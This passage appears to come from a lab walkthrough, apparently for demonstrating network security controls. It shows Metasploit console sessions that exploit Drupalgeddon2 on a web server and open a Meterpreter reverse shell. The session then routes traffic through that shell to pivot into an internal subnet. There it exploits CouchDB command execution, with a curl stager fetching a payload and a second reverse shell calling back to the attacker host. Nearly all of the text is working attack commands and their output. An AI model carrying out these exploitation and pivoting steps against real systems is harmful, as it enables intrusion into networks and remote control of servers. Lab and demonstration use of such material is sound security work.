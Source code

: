 ```console
msf5 > use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 8080
RPORT => 8080
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > exploit -z

[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Sending stage (38288 bytes) to 192.168.10.101
[*] Meterpreter session 1 opened (10.114.209.151:4444 -> 192.168.10.101:50982) at 2020-07-21 20:30:34 -0500
[*] Session 1 created in the background.
msf5 exploit(unix/webapp/drupal_drupalgeddon2) >
```
    
**Route traffic to the Internal Network through the esablished reverse shell**
1.	Once the Meterpreter session is established and backgrounded, type **route add 192.168.20.0/24 1**, where the subnet specified is the subnet of the **Internal Segment**
```console
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > route add 192.168.20.0/24 1
[*] Route added
```
2.	Now that we have instructed Metapsloit to route traffic to the internal subnet through the reverse shell, we can pivot the attack and attack the **App1-APP-TIER VM** on the internal network, which is running a vulnerable **CouchDB** Service. 

**Initiate CouchDB Command Execution attack against App1-APP-TIER VM**
1.	Using the already open Metasploit console, follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/linux/http/apache_couchdb_cmd_exec** to select the CouchDB Command Execution exploit module
    * Type **set RHOST 192.168.20.100** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-APP-TIER VM**. (check the NSX VM Inventory to confirm)
    * Type **set LHOST 10.114.209.151** to define the IP address of the local attacker machine. The IP address should match the IP address of **EXTERNAL VM**. (This IP will be different in your environment !. You can run **ifconfig** to determine this IP)
    * Type **set LPORT 4445** to define the local port to use. The reverse shell will be established to this local port
    * Type **exploit** to initiate the exploit and esbalish a command shell
```console
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > use exploit/linux/http/apache_couchdb_cmd_exec
[*] Using configured payload linux/x64/shell_reverse_tcp
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set RHOST 192.168.20.100
RHOST => 192.168.20.100
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set LHOST 10.114.209.151
LHOST => 10.114.209.151
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set LPORT 4445
LPORT => 4445
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > exploit
```
2. Confirm the vulnerable server was sucessfully exploited and a **shell** reverse TCP session was established from **App1-WEB-APP VM** back to the **Extermal VM**
```console
[*] Started reverse TCP handler on 10.114.209.151:4445
[*] Generating curl command stager
[*] Using URL: http://0.0.0.0:8080/l8sEqcccZNK
[*] Local IP: http://10.114.209.151:8080/l8sEqcccZNK
[*] 192.168.20.100:5984 - The 1 time to exploit
[*] Client 10.114.209.148 (curl/7.38.0) requested /l8sEqcccZNK
[*] Sending payload to 10.114.209.148 (curl/7.38.0)
[*] Command shell session 2 opened (10.114.209.151:4445 -> 10.114.209.148:50665) at 2020-07-22 08:48:51 -0500
[+] Deleted /tmp/jekukcmc
[+] Deleted /tmp/okmyzfondlujy
```